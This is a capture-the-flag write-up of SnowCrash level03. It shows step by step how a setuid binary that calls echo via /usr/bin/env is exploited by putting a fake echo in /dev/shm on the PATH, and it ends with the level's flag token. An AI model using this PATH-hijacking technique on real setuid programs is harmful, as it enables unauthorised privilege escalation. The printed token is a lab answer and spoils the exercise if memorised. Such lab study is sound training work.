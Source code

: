 # Level 03

## Vulnerability
Privilege escalation - environment variables

## Context
In our home directory, we find a binary
```
level03@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

## Solution

When we run this binary, we run it with flag03 permissions (as indicated by the 's' for setuid after  '-rw').
We don't have the permissions to run ```getflag``` directly, but maybe we can use the `./level03` binary to run ```getflag``` for us. 
Let's run the file. 
```
level03@SnowCrash:~$ ./level03
Exploit me
```
We're on the right track. Let's investigate further.
```
level03@SnowCrash:~$ strings level03 | grep "Exploit"
/usr/bin/env echo Exploit me
```
It looks like ./level03 is calling ```echo``` from ```usr/bin/env```. It's calling binary that's defined by the environment.
So maybe the trick is to substitute our own ```echo``` binary, which calls ```getflag``` with ```flag03``` user permissions.

Let's confirm where the getflag is. 
```
level03@SnowCrash:~$ ls -l /bin | grep "getflag"
-rwxr-xr-x 1 root root   11833 Aug 30  2015 getflag
level03@SnowCrash:~$ ../../../bin/getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
As we suspected. Time for some redirection. 
```
level03@SnowCrash:~$ echo "/bin/getflag" > /dev/shm/echo
level03@SnowCrash:~$ chmod +x /dev/shm/echo
level03@SnowCrash:~$ PATH=/dev/shm:$PATH
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
